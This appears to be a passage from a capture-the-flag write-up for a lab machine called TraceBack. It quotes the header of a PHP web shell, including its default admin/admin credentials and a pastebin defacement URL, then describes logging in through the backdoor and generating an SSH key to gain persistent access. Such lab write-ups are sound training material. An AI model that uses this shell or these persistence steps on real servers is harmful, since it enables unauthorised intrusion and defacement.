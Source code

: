 ```bash
<?php 
/*
SmEvK_PaThAn Shell v3 Coded by Kashif Khan .
https://www.facebook.com/smevkpathan
smevkpathan@gmail.com
Edit Shell according to your choice.
Domain read bypass.
Enjoy!
*/
//Make your setting here.
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin).
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
//Change Shell Theme here//
$color = "#8B008B";                                   //Fonts color modify here.
$Theme = '#8B008B';                                    //Change border-color accoriding to your choice.
$TabsColor = '#0E5061';                              //Change tabs color here.
#-------------------------------------------------------------------------------
```

```css
Username:admin
Password:admin
```

With the above credentials, we can login through the backdoor and we have access to the web server.

![](/home/strawhack/Videos/Git/TraceBack/Image/5.png)

From the above screen, we are logged in as user __"Webadmin"__. We are able to access the home directory of Webadmin. 

![](/home/strawhack/Videos/Git/TraceBack/Image/6.png)

There is a .ssh folder in Webadmin home directory. To get a proper shell, lets generate a SSH-key pair.

```bash
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/strawhack/.ssh/id_rsa): webadmin
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in webadmin
Your public key has been saved in webadmin.pub
The key fingerprint is:
SHA256:iGH+zcxDNGEtv0LIAUbz//yAQpvUVpghID2/2i5TmaE strawhack@linux
The key's randomart image is:
+---[RSA 3072]----+
|  .o*o. +.       |
|   ooo.o.=.      |
|    o+.o=o.      |
|   o o==.o.      |
|    o.+*S  .     |
|    E+=X.+.      |
|     += B.+      |
|    + .. . o     |
|     +.     .    |
+----[SHA256]-----+
```
